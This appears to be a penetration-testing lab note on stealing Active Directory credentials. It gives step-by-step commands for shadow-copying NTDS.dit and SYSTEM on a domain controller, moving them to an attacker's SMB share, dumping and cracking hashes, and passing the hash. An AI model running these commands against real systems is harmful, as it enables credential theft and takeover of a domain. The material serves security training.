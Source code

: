 Capturing NTDS.dit (with captured credentials from above)
- Stored at `%systemroot%/ntds` on domain controller in forest
- Is primary database file associated with AD; stores all domain usernames, password hashes and other critical schema information
1. Connect to DC with Evil-WinRM
	- `evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
	- Everything after this is ran within evil-winrm
2. Checking local group membership
	- `net localgroup`
	- Want to see if account has local admin rights
		- To make copy of NTDS.dit file, need local admin (`Administators` group) or Domain admin (`Domain Admins` group)
	- `net user bwilliamson`
		- Check group memberships - Admins/Domain Admins?
3. Create Volume Shadow Copy (VSS) of C: drive (or whatever drive NTDS is stored)
	- `vssadmin CREATE SHADOW /FOR=C:
4. Copy NTDS.dit from the VSS
	- `mkdir c:\NTDS`
	- `cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit`
		- Adjust based on results form above VSS command
		- Now the NTDS file is in C:\NTDS
	- `cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\system32\config\SYSTEM c:\NTDS\system`
		- Copy the HKLM\System as well, for decryption later on
5. Create the SMB share on attack host like previous methods (see SAM attacking)
	- ``sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support <share name> <local directory to host share>`
	- or just `sudo impacket-smbserver share -smb2support .` 
		- `.` - just share the home directory
6.  Move file from target DC to the share on attack host
	- `cmd.exe /c move C:\NTDS\NTDS.dit \\<attack host IP>\<share name> `
	- ``cmd.exe /c move C:\NTDS\system \\<attack host IP>\<share name> ``
7. Extract hashes from NTDS.dit
	- IMPORTANT: Hashes in NTDS.dit encrypted with key stored in SYSTEM. Thus require transfer of SYSTEM. (see Attacking SAM, SYSTEM.. above)
	- `impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL`
		- Ran on local attack host
		- This assumes have the SYSTEM file also in this directory
		- Local -> run offline and not connect to remote host

Alternatively, single line command?
1. `netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutil`


Cracking the hashes
- As seen before, with hashcat
	- `sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt`

If cannot crack the hash, 
## Pass The Hash
- Takes advantage of NTLM authentication protocol to authenticate user using **password hash**
	- Authenticate with `username:password hash` instead of `username:clear-text password`
- `evil-winrm -i 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b
	- Useful for lateral movement
